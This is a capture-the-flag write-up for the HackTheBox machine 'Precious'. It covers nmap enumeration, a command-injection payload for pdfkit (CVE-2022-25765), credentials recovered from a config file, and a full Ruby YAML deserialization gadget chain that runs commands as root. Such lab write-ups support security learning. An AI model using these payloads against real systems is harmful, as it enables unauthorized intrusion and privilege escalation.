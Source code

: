 ```yaml
---
title: "Precious"
date: 15-03-2025
categories: [Linux, Medium]
tags: [Easy, Ruby, Deserialization, RCE, CVE, PDF]
image: https://labs.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png
---
```


This machine was quite hard for me. I learned a lot about exploiting ruby data serialization  and finding information inside of pdf files with `exiftool`.

![precious_info_card](assets/images/precious/Precious.png)

## Enumeration

This machine only has two ports open as shown by the `nmap` scan below
```
# Nmap 7.94SVN scan initiated Sat Mar 15 09:54:17 2025 as: nmap -p22,80 -sCV -Pn -n -oN nmap/precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 15 09:54:24 2025 -- 1 IP address (1 host up) scanned in 7.01 seconds
```

The webpage is redirecting us to `http://precious.htb` we can add this to our hosts file and we can now visit the website. The webpage seems very straightforward, it simply takes in a **url** and produces a pdf file with the contents of that website. I ran `fuff` to identify different virtual hosts or directories but there were none therefore the only vector of exploitation is this pdf generator. 

![prcious](assets/images/precious/Pasted image 20250315095622.png)

The first thing that I tried was inputting a valid website like `nike.com` but that did not work. Following that I set up a listener on port 80 and placed my own IP address to see if I get a connect.  `http://10.10.14.27`

```
sudo nc -lvnp 80
[sudo] password for madaf: 
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.189] 59318
GET / HTTP/1.1
Host: 10.10.14.27
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Following this I tried setting up my own webpage with a simple python script which I used to test the pdf generator. It could print the simple website I generated. I tried using some common file disclosure payloads that are commonly used for pdf generators to try to get files such as `/etc/passwd` but none seemed to work. 

#### PDF Generator libraries

I decided to check `wappalizer` and saw that the website was using Phusion Passenger 6.0.15. Which has support for different languages like Python and Ruby. I decided to intercept a request I made to my own page and saw the following in the headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 4595
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="wutmohqrq8opdks6kapw1gukbefusdim.pdf"
Last-Modified: Sat, 15 Mar 2025 11:18:30 GMT
X-Content-Type-Options: nosniff
Date: Sat, 15 Mar 2025 11:18:30 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

We can see that `X_Runtime` indicates that the website is using Ruby as the language. I downloaded of the the pdf's the website generated and used `exiftool` to examine the pdf metadata:

```
ExifTool Version Number         : 12.57
File Name                       : almtmnf8bywbjqzinc8ehve2fjjim6io.pdf
Directory                       : /home/madaf/Downloads
File Size                       : 12 kB
File Modification Date/Time     : 2025:03:15 12:01:03+01:00
File Access Date/Time           : 2025:03:15 12:01:03+01:00
File Inode Change Date/Time     : 2025:03:15 12:01:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can clearly see that the file was generated using the `pdfkit` library with version `0.8.6` a quick google search indicates that this version is vulnerable to remote code execution. 

## Foothold

The aforementioned vulnerability is [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) . We can quickly check if its vulnerable by inputting this payload into the url field: `http://test.local/%20 ping 10.10.14.27 -c 20` We can now use `tcpdump` to try to see if we get ping requests.

```
sudo tcpdump -i tun0
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:09:03.420024 IP 10.10.14.27.55850 > precious.htb.http: Flags [.], ack 2219377380, win 492, options [nop,nop,TS val 2661141076 ecr 3767220373], length 0
13:09:03.433761 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 1, win 501, options [nop,nop,TS val 3767230404 ecr 2661090882], length 0
13:09:08.935335 IP 10.10.14.27.55850 > precious.htb.http: Flags [P.], seq 1:578, ack 1, win 492, options [nop,nop,TS val 2661146591 ecr 3767230404], length 577: HTTP: POST / HTTP/1.1
13:09:08.951009 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 578, win 501, options [nop,nop,TS val 3767235922 ecr 2661146591], length 0
13:09:08.957799 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 1, length 64
13:09:08.957814 IP 10.10.14.27 > precious.htb: ICMP echo reply, id 13907, seq 1, length 64
13:09:09.956038 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 2, length 64
```

We see the post request and following that we see the pings being sent to our IP. This verifies that we have command execution and we can now use [this](https://github.com/UNICORDev/exploit-CVE-2022-25765?) exploit to give us a reverse shell back to our machine.  We get a reverse shell as the user `ruby`.


## Privilege Escalation

We land on the webpage's directory which contains some configuration files but nothing too interesting. I take a look at the home directory and I find that there is one more user, `henry` I also check my own home directory and after a `ls -la` I find a hidden file that contains credentials to that user. 

```
ruby@precious:/home/ruby$ cd .bundle
ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
#### Gaining Root Access

With this new user we are able to run `/usr/bin/ruby /opt/update_dependencies.rb` as root without password. Since the binaries listed have full paths there is not much we can do regarding path abuses but we can take a look inside `/opt/update_dependencies.rb` one common privilege escalation method in this cases is finding a binary inside the executable that does not use absolute paths, this way we can include our own malicious code and execute it as root. 

Inside of `/opt/update_dependencies.rb` the only file without an absolute path is `dependencies.yml` which gets deserialized using `YAML.load(File.read())` 

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

I got stuck here trying to find a payload that would work to grant me root access. I was told to use the following [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) as reference. Using the second payload I was able to read the root flag.

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat root/root.txt
         method_id: :resolve
```